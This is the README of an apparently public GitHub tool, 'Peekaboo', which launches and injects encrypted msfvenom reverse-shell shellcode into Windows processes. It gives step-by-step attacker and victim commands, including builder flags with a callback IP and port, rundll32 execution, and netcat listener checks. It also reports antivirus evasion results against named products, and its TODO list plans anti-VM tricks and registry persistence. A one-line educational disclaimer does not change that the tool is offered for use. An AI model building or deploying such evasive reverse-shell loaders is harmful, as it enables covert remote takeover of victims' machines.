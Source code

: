 # Peekaboo

Simple undetectable shellcode and code injector launcher example. Inspired by RTO malware development course.

## Main logic

XOR encryption and decryption for functions call and main payload - `msfvenom` reverse shell as example.

## Usage
## 1. DLL
### on attacker machine

check your IP:
```bash
ip a
```

![attacker machine IP](./screenshots/2022-04-24_13-05.png?raw=true)

run python script with flags:
```bash
python3 peekaboo.py -l 192.168.56.1 -p 4444 --build 1
```

![run python script](./screenshots/2022-04-24_13-08.png?raw=true)

### then on victim machine (windows 10 x64):
run on powershell or cmd promt:
```cmd
rundll32 .\peekaboo.dll, lCiSdbvIAaeZLHFfkUhEcbOy
```

![run on victim machine](./screenshots/2022-04-24_13-11.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/2022-04-24_13-12.png?raw=true)

![check IP address](./screenshots/2022-04-24_13-13.png?raw=true)

## 2.Injector
### on attacker machine:
check attacker ip:
```bash
ip a
```

![check IP](./screenshots/2022-04-24_13-05.png?raw=true)

run python script on linux (for example process `mspaint.exe`):
```bash
python3 peekaboo.py -l 192.168.56.1 -p 4444 -e mspaint.exe --build 2
```

![run python script](./screenshots/2022-04-24_13-18.png?raw=true)

### then on victim machine run (windows 10 x64):
```cmd
.\peekaboo.exe
```

or click (if `-m windows` param)

![run on victim machine](./screenshots/2022-04-24_13-20.png?raw=true)

### check on attacker machine:
check your netcat listener:

![check netcat listener](./screenshots/2022-04-24_13-22.png?raw=true)

## 3. NT API injector
run python script on linux (for example process `mspaint.exe`):
```bash
python3 peekaboo.py -l 192.168.56.1 -p 4444 -e mspaint.exe -m console --build 3
```

![enc and compile nt](./screenshots/2022-04-24_13-25.png?raw=true)

### then on victim machine (windows 10 x64):
```cmd
.\peekaboo.exe
```

![run malware](./screenshots/2022-04-24_13-27.png?raw=true)    

![run malware](./screenshots/2022-04-24_13-29.png?raw=true)

## Issues.
Tested on:
1. Attacker machines: Kali linux 2020.1, Windows 10 x64
2. Victim machine: Windows 7 x64, Windows 10 x64
3. Payload: windows x64 reverse shell from msfvenom
4. AV Engines: Kaspersky, Windows Defender, Norton Antivirus Plus

## virus total result:
02 september 2021

![virustotal](./screenshots/11.png?raw=true)

[https://www.virustotal.com/gui/file/c930b9aeab693d36c68e7bcf6353c7515b8fffc8f9a9233e49e90da49ab5d470/detection](https://www.virustotal.com/gui/file/c930b9aeab693d36c68e7bcf6353c7515b8fffc8f9a9233e49e90da49ab5d470/detection)

30 december 2021 (NT API injector)    

![virtustotal 2](./screenshots/16.png?raw=true)    

[https://www.virustotal.com/gui/file/743f50e92c6ef48d6514e0ce2a255165f83afb1ae66deefd68dac50d80748e55/detection](https://www.virustotal.com/gui/file/743f50e92c6ef48d6514e0ce2a255165f83afb1ae66deefd68dac50d80748e55/detection)    

## antiscan.me result:

11 january 2022 (NT API injector)    

![antiscan](./screenshots/antiscan.png?raw=true)    

[https://antiscan.me/scan/new/result?id=rQVfQhoFYgH9](https://antiscan.me/scan/new/result?id=rQVfQhoFYgH9)    

## websec.nl scanner result:

10 October 2024     

![websec](./screenshots/websec.png?raw=true)     

[https://websec.net/scanner/result/a3583316-cb72-4894-bd22-48241ca79db9](https://websec.net/scanner/result/a3583316-cb72-4894-bd22-48241ca79db9)     

## TODO
- [x] Compile injector in Kali linux
- [x] XOR + AES [aes branch](https://github.com/cocomelonc/peekaboo/tree/aes)
- [x] Calling Windows API functions by hash names
- [x] Find Kernel32 base via asm style
- [x] One python builder
- [ ] Anti-VM tricks
- [ ] Persistence via Windows Registry run keys
- [ ] Replace msfvenom shell to donut payload???

## Attention
This tool is a Proof of Concept and is for Educational Purposes Only!!! Author takes no responsibility of any damage you cause

## License
[MIT](https://choosealicense.com/licenses/mit/)
